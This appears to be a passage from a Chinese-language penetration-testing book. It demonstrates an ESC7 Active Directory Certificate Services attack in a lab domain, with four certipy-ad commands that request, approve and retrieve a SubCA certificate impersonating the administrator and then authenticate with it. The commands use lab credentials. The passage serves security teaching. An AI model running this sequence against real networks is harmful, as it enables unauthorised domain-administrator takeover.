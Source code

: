 执行前述命令的结果如下：

![图 8.34 – 启用 SubCA 模板并授予 khal.drogo 官员权限](img/B18964_08_34.jpg)

图 8.34 – 启用 SubCA 模板并授予 khal.drogo 官员权限

我们将通过请求使用**SubCA**模板的证书来发起攻击，手动批准它，最后检索已发放的证书。以下命令将执行攻击：

```
certipy-ad req -u khal.drogo@essos.local -p horse -ca ESSOS-CA -target braavos.essos.local -template SubCA -upn administrator@essos.local
certipy-ad ca -u khal.drogo@essos.local -p horse -ca ESSOS-CA -target braavos.essos.local -issue-request 19
certipy-ad req -u khal.drogo@essos.local -p horse -ca ESSOS-CA -target braavos.essos.local -retrieve 19
certipy-ad auth -pfx administrator.pfx -dc-ip 192.168.56.12
```

前述命令的结果如下截图所示：

![图 8.35 – 成功的 ESC7 攻击](img/B18964_08_35.jpg)
